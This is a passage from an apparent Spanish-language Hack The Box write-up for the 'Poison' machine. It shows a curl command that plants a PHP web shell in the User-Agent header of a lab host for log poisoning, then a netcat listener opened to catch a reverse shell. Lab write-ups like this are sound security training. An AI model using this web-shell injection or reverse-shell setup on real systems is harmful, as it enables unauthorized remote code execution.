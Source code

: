 ## Shell as www

Algo que podemos hacer es que para controlar nosotros el comando podemos inyectar lo siguiente para poder hacerlo mucho mas comodo mediante el parámetro `cmd` nosotros le vamos a pasar el comando 

```bash
┌─[root@parrot]─[/home/miguel7/Hackthebox/Poison/nmap]
└──╼ #curl -s -X GET "http://10.129.1.254/test" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"          
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /test was not found on this server.</p>
</body></html>
┌─[root@parrot]─[/home/miguel7/Hackthebox/Poison/nmap]
└──╼ #
```

Vemos que funciona

![](/assets/images/htb-writeup-poison/web6.png)

Ahora vamos a ganar acceso nos vamos a poner en escucha con `netcat`

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
```
